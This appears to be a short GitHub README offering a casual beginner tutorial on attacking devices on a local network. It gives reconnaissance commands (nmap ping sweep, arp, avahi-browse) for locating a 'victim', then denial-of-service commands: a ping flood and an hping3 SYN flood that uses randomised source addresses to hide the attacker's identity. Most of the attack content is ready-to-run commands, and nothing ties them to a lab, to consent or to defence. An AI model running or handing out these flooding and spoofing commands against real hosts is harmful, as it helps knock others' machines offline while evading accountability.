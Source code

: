# Network-Security
#Hey Man Whatsup !!
## getting info about devices connected to your local network
to start an attack you should first get some basic information about your victim, like ip address.
my favorite command is the last one, but it requires the installation of avahi.
The first thing to get into network security is to learn how to use nmap. There is a tutorial in this repo for that.
we can use one or more of the following commands to get that info:
```
nmap -sP 192.168.1.0/24
arp -a
arp
avahi-discover
avahi-browse -rat
```
## ping flooding (DOS attack)
ping flood basically floods the target pc with lots of ping requests so that it cannot access any other internet resource.
But it will also flood your pc with ping responses, so use this command only if you are sure that your pc has greater speed than the victim.
```
  ping -f -s 65500 ip(or website)
```

However, there are more sophisticated tools available at our disposal like Hping3.
using hping we can easily spoof our ips, so that your identity remains secure while doing the attacks.
after installing hping3, we can use the following commands:

```
  hping3 -S -P -U --flood -V --rand-source website(or ip)
```
